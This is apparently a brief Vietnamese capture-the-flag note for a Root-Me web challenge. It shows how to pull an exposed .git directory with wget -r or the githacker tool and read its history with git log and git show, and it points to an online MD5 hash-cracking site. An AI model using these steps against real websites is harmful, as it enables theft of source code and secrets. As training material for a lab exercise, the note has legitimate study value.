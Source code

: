 # /.git

- có thể truy cập được vào thư mục .git 
- dùng wget -r http://challenge01.root-me.org/web-serveur/ch61/.git/ để down hết về.
- vào thư mục git : `git log`  ;  `git show` ==> done

- ngoài ra có thể dùng lệnh dưới thay cho wget
```bashshell
githacker --url http://challenge01.root-me.org/web-serveur/ch61/.git/ --folder folderName
```

- Biết thêm  một cái web crack password: https://md5hashing.net/